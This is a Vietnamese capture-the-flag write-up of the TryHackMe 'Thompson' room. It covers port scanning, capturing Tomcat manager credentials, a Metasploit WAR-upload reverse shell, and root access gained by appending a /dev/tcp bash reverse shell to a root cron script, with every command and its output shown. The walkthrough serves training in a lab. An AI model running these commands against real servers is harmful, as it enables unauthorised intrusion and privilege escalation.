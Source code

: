 ```yaml
---
layout: post
author: "Neo"
title: "Tryhackme - Thompson"
date: "2022-03-06"
tags: [
    "tryhackme",
    "web",
    "tomcat",
    "linux",
    "burpsuite",
    "metasploit",
    "ssh",
]
categories: ctf
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

![intro](/assets/img/2022-03-06-THM-Thompson/1.webp)

Xin chào, Lẩu đây. Hôm nay tôi sẽ giải CTF [Tryhackme - Thompson](https://tryhackme.com/room/bsidesgtthompson)
## Reconnaissance

Vẫn như thông thường, việc đầu cần làm quét các cổng đang mở trên máy chủ mục tiêu.

```python
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Với Apache Tomcat 8.5.5 tôi thử tìm exploit và ra được 2 kết quả

```python
┌──(neo㉿kali)-[~]
└─$ searchsploit tomcat 8.5.5 
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (1)                                               | windows/webapps/42953.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)                                               | jsp/webapps/42966.py
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                  
┌──(neo㉿kali)-[~]
└─$ 
```

Tuy nhiên khi thử khai thác 2 exploit này tôi không thu được kết quả gì khả quan. Tạm thời tôi sẽ để nó lại. Với port 8009, tôi nhớ nó có liên quan đến [Ghostcat](https://book.hacktricks.xyz/network-services-pentesting/8009-pentesting-apache-jserv-protocol-ajp) nên đã tìm lại lỗ hổng liên quan đến nó. 

Thử dùng Metasploit cũng không có kết quả do phải có username và password. Tôi sẽ quay về với cách sơ khai nhất là tìm path với *dirsearch*

```python
┌──(neo㉿kali)-[~]
└─$ dirsearch -u 10.10.222.69:8080

  _|. _ _  _  _  _ _|_    v0.4.2                                                                                                                                                             
 (_||| _) (/_(_|| (_| )                                                                                                                                                                      
                                                                                                                                                                                             
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/neo/.dirsearch/reports/8080_22-09-26_03-55-39.txt

Error Log: /home/neo/.dirsearch/logs/errors-22-09-26_03-55-39.log

Target: http://10.10.222.69:8080/

[03:55:39] Starting: 
[03:56:07] 400 -    0B  - /\..\..\..\..\..\..\..\..\..\etc\passwd           
[03:56:09] 400 -    0B  - /a%5c.aspx                                        
[03:56:35] 200 -    3KB - /build.xml                                        
[03:56:46] 302 -    0B  - /docs  ->  /docs/                                 
[03:56:47] 200 -   16KB - /docs/                                            
[03:56:51] 302 -    0B  - /examples  ->  /examples/                         
[03:56:51] 200 -    1KB - /examples/                                        
[03:56:51] 200 -    6KB - /examples/servlets/index.html                     
[03:56:51] 200 -  658B  - /examples/servlets/servlet/CookieExample
[03:56:51] 200 -  946B  - /examples/servlets/servlet/RequestHeaderExample   
[03:56:52] 200 -  673B  - /examples/jsp/snp/snoop.jsp                       
[03:56:53] 200 -   21KB - /favicon.ico                                      
[03:56:57] 302 -    0B  - /host-manager/  ->  /host-manager/html            
[03:56:57] 401 -    2KB - /host-manager/html                                
[03:57:00] 200 -   11KB - /index.jsp                                        
[03:57:09] 302 -    0B  - /manager  ->  /manager/                           
[03:57:10] 401 -    2KB - /manager/status/all                               
[03:57:10] 401 -    2KB - /manager/html
[03:57:10] 401 -    2KB - /manager/jmxproxy/?qry=STUFF                      
[03:57:10] 401 -    2KB - /manager/jmxproxy                                 
[03:57:10] 401 -    2KB - /manager/html/                                    
[03:57:10] 401 -    2KB - /manager/jmxproxy/?get=java.lang:type=Memory&att=HeapMemoryUsage
[03:57:10] 401 -    2KB - /manager/jmxproxy/?get=BEANNAME&att=MYATTRIBUTE&key=MYKEY
[03:57:10] 401 -    2KB - /manager/jmxproxy/?get=java.lang:type=Memory&att=HeapMemoryUsage&key=used
[03:57:10] 401 -    2KB - /manager/jmxproxy/?set=Catalina%3Atype%3DValve%2Cname%3DErrorReportValve%2Chost%3Dlocalhost&att=debug&val=cow
[03:57:10] 302 -    0B  - /manager/  ->  /manager/html
[03:57:10] 401 -    2KB - /manager/jmxproxy/?set=BEANNAME&att=MYATTRIBUTE&val=NEWVALUE
[03:57:10] 401 -    2KB - /manager/jmxproxy/?invoke=Catalina%3Atype%3DService&op=findConnectors&ps=
[03:57:10] 401 -    2KB - /manager/jmxproxy/?invoke=BEANNAME&op=METHODNAME&ps=COMMASEPARATEDPARAMETERS
                                                                             
Task Completed                                                                                                                                                                               
                    
┌──(neo㉿kali)-[~]
└─$
```

Truy cập vào */manager/html* thì tôi phải login mới có thể xem được file này

![html](/assets/img/2022-03-06-THM-Thompson/2.webp)

Dùng *BurpSuite* để bắt request

![burp](/assets/img/2022-03-06-THM-Thompson/3.webp)

Vậy là tôi có uername và password. Quay trở lại Metasploit, hướng dẫn setup ở [đây](https://null-byte.wonderhowto.com/how-to/hack-apache-tomcat-via-malicious-war-file-upload-0202593/)

```python
msf6 exploit(multi/http/tomcat_mgr_upload) > show options

Module options (exploit/multi/http/tomcat_mgr_upload):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  s3cret           no        The password for the specified username
   HttpUsername  tomcat           no        The username to authenticate as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        10.10.222.69     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT         8080             yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /manager         yes       The URI path of the manager app (/html/upload and /undeploy will be used)
   VHOST                          no        HTTP server virtual host


Payload options (java/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.18.3.74       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal


msf6 exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on 10.18.3.74:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying MOqDtqfxEsxNGo...
[*] Executing MOqDtqfxEsxNGo...
[*] Undeploying MOqDtqfxEsxNGo ...
[*] Undeployed at /manager/html/undeploy
[*] Command shell session 1 opened (10.18.3.74:4444 -> 10.10.222.69:55106) at 2022-09-26 05:26:05 -0400

id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@ubuntu:/$ 
```

Tôi tìm thấy *user.txt* trong */home/jack*

## Privilege escalation

Trong thư mục *jack* còn 2 file nữa là *id.sh* và *test.txt*. 

```python
tomcat@ubuntu:/home/jack$ cat test.txt
cat test.txt
uid=0(root) gid=0(root) groups=0(root)
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
#!/bin/bash
id > test.txt
tomcat@ubuntu:/home/jack$
```

Khi chạy *id.sh* nó sẽ in kết quả ra *test.txt*. Kiểm tra *crontab*

```python
tomcat@ubuntu:~$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /home/jack && bash id.sh
#
tomcat@ubuntu:~$ 
```

File *id.sh* sẽ tự động thực thi, việc của tôi là thêm payload vào file này và chờ hệ thống thực thi. Nhưng trước đó thì tôi phải tạo listener với port 2402 đã `nc -lnvp 2402`

```python
tomcat@ubuntu:/home/jack$ echo '/bin/bash -i >& /dev/tcp/10.18.3.74/2402 0>&1' >> id.sh
<cho '/bin/bash -i >& /dev/tcp/10.18.3.74/2402 0>&1' >> id.sh                
tomcat@ubuntu:/home/jack$ cat id.sh     
cat id.sh
#!/bin/bash
id > test.txt
bash -i >& /dev/tcp/10.18.3.74/2402 0>&1
tomcat@ubuntu:/home/jack$ 
```

Quay lại listener

```python
┌──(neo㉿kali)-[~]
└─$ nc -lnvp 2402
listening on [any] 2402 ...
connect to [10.18.3.74] from (UNKNOWN) [10.10.222.69] 35900
bash: cannot set terminal process group (1998): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/home/jack# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/home/jack# ls /root
ls /root
root.txt
root@ubuntu:/home/jack# 
```

